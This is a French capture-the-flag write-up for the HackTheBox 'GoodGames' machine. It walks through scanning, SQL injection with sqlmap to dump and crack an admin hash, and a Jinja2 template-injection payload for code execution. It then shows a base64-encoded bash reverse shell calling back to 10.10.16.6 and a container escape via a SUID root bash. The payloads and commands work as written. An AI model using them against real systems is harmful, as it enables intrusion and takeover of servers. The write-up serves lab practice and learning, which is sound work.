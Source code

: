 # Goodgames - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-05 17:28 EST
Nmap scan report for 10.10.11.130
Host is up (0.023s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.90 seconds
```

On tombe donc sur un site, on lance un gobuster en tâche de fond

```bash
gobuster dir -u http://10.10.11.130/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt --exclude-length 9265
```

```bash
/logout               (Status: 302) [Size: 208] [--> http://10.10.11.130/]
/login                (Status: 200) [Size: 9294]                          
/blog                 (Status: 200) [Size: 44212]                         
/profile              (Status: 200) [Size: 9267]                          
/signup               (Status: 200) [Size: 33387]                         
/forgot-password      (Status: 200) [Size: 32744]                         
/server-status        (Status: 403) [Size: 277]                           
/coming-soon          (Status: 200) [Size: 10524]                         
Progress: 23890 / 62285 (38.36%)                                         [ERROR] 2023/03/05 17:34:33 [!] parse "http://10.10.11.130/error\x1f_log": net/url: invalid control character in URL
/password-reset       (Status: 200) [Size: 9294]
```

On essaye sqlmap sur la page de login vu que ces pages ne donnent rien:

```bash
sqlmap -r login.req
```

```bash
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test@gmail.com' AND (SELECT 8568 FROM (SELECT(SLEEP(5)))RZSw) AND 'BsWV'='BsWV&password=test
---
[17:43:51] [INFO] fetching current user
[17:43:51] [INFO] retrieved: main_admin@localhost                                              
current user: 'main_admin@localhost'                                                                                                                                                          
[17:45:05] [INFO] fetching current database                                                    
[17:45:05] [INFO] retrieved: main      
current database: 'main'
[17:45:17] [INFO] fetching server hostname
[17:45:17] [INFO] retrieved: GoodGames
hostname: 'GoodGames'                                                                          
[17:45:52] [INFO] testing if current user is DBA                                               
[17:45:52] [INFO] fetching current user        
current user is DBA: False                                                                                                                                                                    
[17:45:52] [INFO] fetching database users                                                                                                                                                     
[17:45:52] [INFO] fetching number of database users                                            
[17:45:52] [INFO] retrieved: 1                                                                 
[17:45:53] [INFO] retrieved: 'main_admin'@'localhost'                                          
database management system users [1]:                                                          
[*] 'main_admin'@'localhost'

[17:47:44] [INFO] retrieved: 2
[17:47:46] [INFO] retrieved: information_schema
[17:48:51] [INFO] retrieved: main
[17:49:04] [INFO] fetching tables for databases: 'information_schema, main'
[17:49:04] [INFO] fetching number of tables for database 'main'
[17:49:04] [INFO] retrieved: 3
[17:49:08] [INFO] retrieved: blog
[17:49:24] [INFO] retrieved: blog_comments
[17:50:04] [INFO] retrieved: user
[17:50:18] [INFO] fetching number of tables for database 'information_schema'
```

On trouve ces credentials:

```bash
Database: main
Table: user
[1 entry]
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+-------+---------------------+----------------------------------+
```

On trouve sur crackstation que le mdp est: superadministrator

On est donc connecté en tant qu’admin.

On peut maintenant laisser des commentaires, on remarque que s’il on met des balises de script dans les commentaires alors on a une erreur 500 mais aussi quand on pose des comments normaux alors je pense que le site ne marche pas.

On peut aller dans les settings mais ça nous redirige vers internal-administration.goodgames.htb, on l’ajoute à nos noms de domaine, on se connecte avec les credentials précédents

Les seuls champs avec lesquels ont peut interagir sont dans les settings du profil, on essaye une SSTI sur le nom de profil et quand on insère {{7*7}} on obtient 49 comme nom.

Ce payload fonctionne:

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

On va forger une reverse shell en base64:

```bash
echo -e 'bash -i >& /dev/tcp/10.10.16.6/9090 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzkwOTAgMD4mMQo=
```

```bash

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzkwOTAgMD4mMQo= | base64 -d | bash').read() }}
```

On obtient le flag user mais on est sûrement dans une box vu que il n’y a rien dans /root et qu’on est directement root. On arrive à voir que on est bien mounté:

```bash
mount

/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)                          
/dev/sda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro)                        
/dev/sda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro)                           
/dev/sda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro)
```

```bash
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 3808  bytes 662201 (646.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3192  bytes 2749694 (2.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

nmap n’est pas installé mais on peut utiliser bash avec un script générique:

```bash
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT
&>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```

Le port 22 est ouvert donc on essaye de se log en ssh avec les credentials qu’on a récolté. On est connecté en tant qu’Augustus et vu que le container est monté sur son répertoire on va modifier les droits en tant que root dans le container pour obtenir des droits dans la machine

Sur la machine:

```bash
cp /bin/bash .
```

Sur le container:

```bash
# chown root:root bash
chown root:root bash
chmod 4755 bash
# ls -lia
ls -lia
total 1232
130100 drwxr-xr-x 2 1000 1000    4096 Mar  6 15:44 .
  5816 drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
134862 lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash_history -> /dev/null
130140 -rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
130148 -rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
130135 -rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
130071 -rwsr-xr-x 1 root root 1234376 Mar  6 15:44 bash
135417 -rw-r----- 1 root 1000      33 Mar  6 14:49 user.txt
```

On ssh de nouveau et on ouvre le shell pour devenir root et obtenir le flag final